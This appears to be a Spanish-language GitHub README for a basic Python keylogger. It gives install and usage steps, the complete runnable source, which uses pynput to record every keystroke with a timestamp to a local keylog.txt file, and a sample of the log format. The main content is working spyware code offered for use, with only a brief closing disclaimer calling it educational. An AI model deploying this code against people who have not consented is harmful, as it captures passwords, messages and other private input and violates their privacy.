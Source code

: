 ## Basic Python Keylogger

Este es un simple keylogger implementado en Python que registra las teclas presionadas junto con la marca de tiempo correspondiente.

## Características

- Registra todas las teclas presionadas
- Guarda la fecha y hora de cada pulsación
- Almacena los registros en un archivo de texto
- Captura tanto caracteres imprimibles como teclas especiales

## Requisitos

- Python 3.x
- pynput

## Instalación

1. Asegúrate de tener Python instalado en tu sistema
2. Instala la dependencia necesaria:

```bash
pip install pynput
```

## Uso

1. Ejecuta el script:

```bash
python keylogger.py
```

2. El programa comenzará a registrar todas las teclas presionadas
3. Los registros se guardarán en un archivo llamado `keylog.txt` en el mismo directorio

## Estructura del Código

```python
from pynput.keyboard import Key, Listener
from datetime import datetime

# Función que registra cada tecla presionada
def on_press(key):
    timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')  # Fecha y hora actual
    try:
        # Si es un carácter imprimible, lo guarda como tal
        with open("keylog.txt", "a") as file:
            file.write(f"{timestamp} - {key.char}\n")
    except AttributeError:
        # Si es una tecla especial, la guarda como Key.<nombre>
        with open("keylog.txt", "a") as file:
            file.write(f"{timestamp} - {key}\n")

# Inicializa el listener para capturar las teclas
with Listener(on_press=on_press) as listener:
    listener.join()
```

## Formato del Archivo de Salida

El archivo `keylog.txt` contendrá registros en el siguiente formato:

```
2025-01-10 14:30:45 - a
2025-01-10 14:30:46 - b
2025-01-10 14:30:47 - Key.space
```

## Advertencia

Este código es solo para fines educativos y de demostración. El uso de keyloggers sin el consentimiento explícito puede ser ilegal en muchas jurisdicciones.

## Contribuir

Siéntete libre de contribuir al proyecto mediante pull requests o reportando issues.

## Licencia

Este proyecto está licenciado bajo la Licencia MIT - ver el archivo LICENSE para más detalles.
